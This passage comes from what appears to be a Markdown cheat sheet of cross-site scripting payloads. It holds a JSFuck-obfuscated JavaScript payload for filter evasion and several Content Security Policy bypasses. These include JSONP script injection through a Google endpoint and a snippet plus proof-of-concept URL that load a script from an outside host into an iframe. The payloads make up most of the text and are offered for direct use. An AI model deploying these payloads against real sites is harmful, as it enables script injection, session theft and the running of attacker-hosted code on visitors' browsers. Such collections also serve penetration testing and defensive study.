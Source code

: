 Bypass using [jsfuck](http://www.jsfuck.com/)

```javascript
[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+!+[]]][([][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+!+[]]]+[])[!+[]+!+[]+!+[]]+(!![]+[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+!+[]]])[+!+[]+[+[]]]+([][[]]+[])[+!+[]]+(![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[+!+[]]+([][[]]+[])[+[]]+([][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+!+[]]]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+!+[]]])[+!+[]+[+[]]]+(!![]+[])[+!+[]]]((![]+[])[+!+[]]+(![]+[])[!+[]+!+[]]+(!![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+!+[]]+(!![]+[])[+[]]+(![]+[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+!+[]]])[!+[]+!+[]+[+[]]]+[+!+[]]+(!![]+[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+!+[]]])[!+[]+!+[]+[+[]]])()
```

## CSP Bypass

Check the CSP on [https://csp-evaluator.withgoogle.com](https://csp-evaluator.withgoogle.com) and the post : [How to use Google’s CSP Evaluator to bypass CSP](https://websecblog.com/vulns/google-csp-evaluator/)

### Bypass CSP using JSONP from Google (Trick by [@apfeifer27](https://twitter.com/apfeifer27))

//google.com/complete/search?client=chrome&jsonp=alert(1);

```js
<script/src=//google.com/complete/search?client=chrome%26jsonp=alert(1);>"
	
"><script/src="https://google.com/complete/search?client=chrome%26jsonp=alert(1);>"
```

More JSONP endpoints available in [/Intruders/jsonp_endpoint.txt](Intruders/jsonp_endpoint.txt)

### Bypass CSP by [lab.wallarm.com](https://lab.wallarm.com/how-to-trick-csp-in-letting-you-run-whatever-you-want-73cb5ff428aa)

Works for CSP like `Content-Security-Policy: default-src 'self' 'unsafe-inline';`, [POC here](http://hsts.pro/csp.php?xss=f=document.createElement%28"iframe"%29;f.id="pwn";f.src="/robots.txt";f.onload=%28%29=>%7Bx=document.createElement%28%27script%27%29;x.src=%27//bo0om.ru/csp.js%27;pwn.contentWindow.document.body.appendChild%28x%29%7D;document.body.appendChild%28f%29;)

```js
script=document.createElement('script');
script.src='//bo0om.ru/csp.js';
window.frames[0].document.head.appendChild(script);
```

### Bypass CSP by [Rhynorater](https://gist.github.com/Rhynorater/311cf3981fda8303d65c27316e69209f)
